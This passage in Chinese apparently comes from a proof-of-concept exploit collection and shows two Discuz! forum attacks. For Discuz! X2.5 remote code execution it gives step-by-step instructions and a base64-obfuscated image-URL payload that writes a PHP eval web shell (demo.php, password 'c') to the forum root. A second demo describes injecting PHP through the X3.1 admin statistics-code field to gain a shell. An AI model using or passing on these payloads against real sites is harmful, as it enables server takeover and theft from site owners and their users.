 ![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/58.png)

参考链接：
https://bbs.ichunqiu.com/thread-1909-1-1.html

https://www.webshell.cc/4664.html
#### 演示5：Discuz! X2.5 远程代码执行漏洞
a.注册任意账户。

b.登陆用户，发表blog日志（注意是日志）。 

c.添加图片，选择网络图片，地址{${fputs(fopen(base64_decode(ZGVtby5waHA),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz5vaw))}} 

d.访问日志，论坛根目录下生成demo.php，一句话密码：c。

参考链接：http://www.freebuf.com/vuls/329.html
#### 演示6：Discuz! X3.1后台任意代码执行可拿shell
全局--〉网站第三方统计代码--〉插入php代码,如插入 <?php phpinfo();?>
